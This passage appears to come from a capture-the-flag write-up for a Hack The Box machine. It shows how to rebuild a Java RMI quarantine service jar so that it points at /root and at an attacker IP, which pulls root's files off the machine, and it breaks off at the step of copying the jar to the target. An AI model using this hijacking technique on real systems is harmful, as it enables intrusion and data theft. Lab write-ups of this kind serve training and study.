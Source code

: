 If we were to modify this line we could make try to trick this service to connect to our machine. Judging by the code we reviewed of the quarantine jar file this would give us a full list of all files that were scanned. Additionally, if we change the quarantine directory to something we control and the search directory to the root directory, we might be able to exfiltrate any files present in the root directory.

So lets first unpack all files from this jar file the same way we did for the hosting war file.

```bash
jar -xvf registry.jar
```
After we unpacked these files, delete the old **QuarantineServiceImpl.class** file and place the following modified QuarantineServiceImpl.java file in its place.

```java
package com.htb.hosting.rmi.quarantine;

import com.htb.hosting.rmi.FileServiceConstants;
import java.io.File;
import java.rmi.RemoteException;
import java.util.logging.Logger;

public class QuarantineServiceImpl implements QuarantineService {
  private static final Logger logger = Logger.getLogger(QuarantineServiceImpl.class.getSimpleName());
  
  private static final QuarantineConfiguration DEFAULT_CONFIG = new QuarantineConfiguration(new File("/tmp/.hidden"), new File("/root"), "10.10.16.86", 3310, 1000);
  
  public QuarantineConfiguration getConfiguration() throws RemoteException {
    logger.info("client fetching configuration");
    return DEFAULT_CONFIG;
  }
}
```

After adding the QuarantineServiceImpl.java file, we need to compile it to make it into QuarantineServiceImpl.class. We can do this with the following command.

```bash
javac -cp registry registry/com/htb/hosting/rmi/quarantine/QuarantineServiceImpl.java
```

When this compiled properly we need to create a jar file out of it again. We need to mark it as executable with the `e` flag, and specify the fully qualified path of the main function, this tells java to run the main() function of the Server class when starting the jar file, which the original jar also does.

```bash
jar cfe NewRegistry.jar com.htb.hosting.rmi.Server  com/*
```


### RMI Hijacking

So now we have our new Registry.jar file that we can use to hijack the RMI server. First of all we need to move it over to the target machine. I used the following SCP command for this.
